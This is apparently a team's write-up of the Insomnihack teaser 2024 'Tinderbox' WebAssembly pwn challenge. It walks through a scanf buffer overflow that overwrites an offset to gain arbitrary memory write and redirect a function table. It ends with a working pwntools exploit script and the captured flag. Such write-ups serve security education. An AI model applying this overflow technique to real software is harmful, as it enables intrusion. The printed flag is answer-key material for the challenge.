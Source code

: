 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for challenge TinderBox of Insomnihack teaser 2024' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate 37 - your input
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< image src="/img/Insomnihack_teaser_2024/get_name.png" position="center" >}}
Figure 1: Get name function

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format `%s`. So it's clear that there is a buffer overflow here.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< image src="/img/Insomnihack_teaser_2024/jump_table.png" position="center" >}}
Figure 2: Function table

{{< image src="/img/Insomnihack_teaser_2024/setValues.png" position="center" >}}
Figure 3: setValues function

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where name is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing 0. This offset is used in the `setValues` function to referencing to first character of the 'name' buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< image src="/img/Insomnihack_teaser_2024/original_main.png" position="center" >}}
Figure 4: original_main function

We can't use buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
N.B. in this stack representation (obviously) numbers in square bracket below are refered to the size of the array.

```
+________________________+
|                        |
|  jump_table_offsets[4] |
|________________________|
|                        |
|        name[16]        |
|________________________|
|                        |
|       name_offset      |
|________________________|
|                        |
|        something       |
|________________________|
|                        |
|           ret          |
+________________________+

```

We can exploit this to change the values into `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions, basically we need only to modify `jump_tables_offset[1]` from value 3 to 2, so we'll call `win` function when we run third option in the menu.

{{< image src="/img/Insomnihack_teaser_2024/menu.png" position="center" >}}
Figure 3: menu function

After some try we found that the right offset to modify `jump_tables_offset[1]` is -12. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
